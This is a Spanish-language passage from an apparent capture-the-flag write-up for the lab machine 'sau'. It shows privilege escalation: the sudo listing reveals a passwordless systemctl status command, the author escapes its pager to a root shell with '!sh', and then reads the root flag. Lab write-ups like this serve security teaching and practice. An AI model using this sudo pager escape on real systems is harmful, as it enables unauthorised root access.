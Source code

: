 #### 🔐 Escalada de Privilegios

Verificamos si el usuario puma puede ejecutar algún binario como root:

```
puma@sau:~$ sudo -l

Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```


Podemos abusar de este binario para escalar privilegios tal como se describe en:
https://gtfobins.github.io/gtfobins/systemctl/

```
sudo /usr/bin/systemctl status trail.service
!sh
```

```
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# cat root.txt
cat root.txt
d9a74************56f54743813
```

![image](https://github.com/user-attachments/assets/424a5fd0-bea7-4971-917f-f24a3cd4169c)
